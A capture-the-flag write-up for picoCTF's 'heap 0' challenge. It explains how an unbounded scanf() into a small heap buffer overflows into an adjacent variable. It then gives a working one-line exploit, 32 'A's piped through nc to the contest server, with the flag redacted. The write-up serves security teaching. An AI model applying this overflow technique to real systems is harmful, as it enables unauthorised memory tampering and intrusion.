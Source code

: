 # heap 0 #
 
## Overview ##

50 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #heap`

## Description ##

Are overflows just a stack concern?

## Approach ##

Inspecting the provided `chall.c` source file, we can see in `check_win()` that we need heap variable `safe_var` to not equal `bico` (the value initialised within the `init()` function) to dump the contents of the flag file to standard output.

Global variables are;

    int num_allocs;
    char *safe_var;
    char *input_data;

Where `safe_var` and `input_data` are allocated from the heap via `malloc()` with the sizes;

    // amount of memory allocated for input_data
    #define INPUT_DATA_SIZE 5
    // amount of memory allocated for safe_var
    #define SAFE_VAR_SIZE 5

Running the program the addresses of these allocated buffers are conveniently shown:

    $ ./chall

    Welcome to heap0!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x5e36fb3416b0  ->   pico
    +-------------+----------------+
    [*]   0x5e36fb3416d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 

Using the memory addresses displayed we can see the `safe_var` buffer is located 32 bytes after the `input_data` buffer (`0xD0 - 0xB0 = 32`). Therefore with the unbounded `scanf()` within `write_buffer()` to the `input_data` buffer we can overflow this buffer and write into the `safe_var`, modifying its contents so it no longer contains `pico`.

## Solution ##

The final solution to write 32 `'A'`s and then execute the "Print Flag" menu item :

    $ echo $(python3 -c 'print("2\n" + "A"*32 + "\n4\n")') | nc tethys.picoctf.net 54775

    Welcome to heap0!
    I put my data on the heap so it should be safe from any tampering.
    Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

    Heap State:
    +-------------+----------------+
    [*] Address   ->   Heap Data   
    +-------------+----------------+
    [*]   0x556daa9862b0  ->   pico
    +-------------+----------------+
    [*]   0x556daa9862d0  ->   bico
    +-------------+----------------+

    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: Data for buffer: 
    1. Print Heap:      (print the current state of the heap)
    2. Write to buffer: (write to your own personal block of data on the heap)
    3. Print safe_var:  (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
    4. Print Flag:      (Try to print the flag, good luck)
    5. Exit

    Enter your choice: 
    YOU WIN
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.